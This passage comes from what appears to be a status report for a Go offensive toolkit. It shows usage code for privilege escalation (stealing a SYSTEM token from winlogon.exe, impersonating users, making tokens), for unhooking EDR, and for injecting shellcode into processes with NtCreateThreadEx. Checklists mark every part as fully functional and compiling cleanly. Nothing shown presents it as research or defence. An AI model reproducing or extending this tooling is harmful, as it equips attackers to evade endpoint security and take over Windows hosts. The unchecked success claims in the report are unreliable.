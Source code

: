 **Usage**:
```go
pe := privilege.NewPrivilegeEscalation(logger)
err := pe.GetSystem("winlogon.exe")
err := pe.ImpersonateUser("username")
err := pe.MakeToken("user", "domain", "password")
```

**Status**: ✅ **100% FUNCTIONAL**

---

## Part 4: Integration & Architecture

### Clean Architecture ✅
- ✅ **Interface-based design** - DirectSyscallInterface for decoupling
- ✅ **No circular dependencies** - Proper package separation
- ✅ **Integration helper** - `NewProcessInjectionWithEvasion()` convenience function
- ✅ **Error handling** - Comprehensive error messages
- ✅ **Memory management** - Proper handle cleanup with defer

### Integration Example ✅
```go
import (
    "github.com/ditto/ditto/evasion"
    "github.com/ditto/ditto/injection"
)

// Method 1: Use convenience function
pi, ds, err := evasion.NewProcessInjectionWithEvasion(logger)

// Method 2: Manual wiring
ds := evasion.NewDirectSyscall(logger)
pi := injection.NewProcessInjection(logger)
pi.SetDirectSyscall(ds)

// Unhook EDR first
evasion.UnhookEDR()

// Now inject
err = pi.InjectShellcode(pid, shellcode, "ntcreatethreadex")
```

---

## Part 5: Testing & Validation

### Compilation Status ✅
- ✅ All code compiles without errors
- ✅ Windows-specific code properly guarded with build tags
- ✅ No circular dependencies
- ✅ All imports resolved
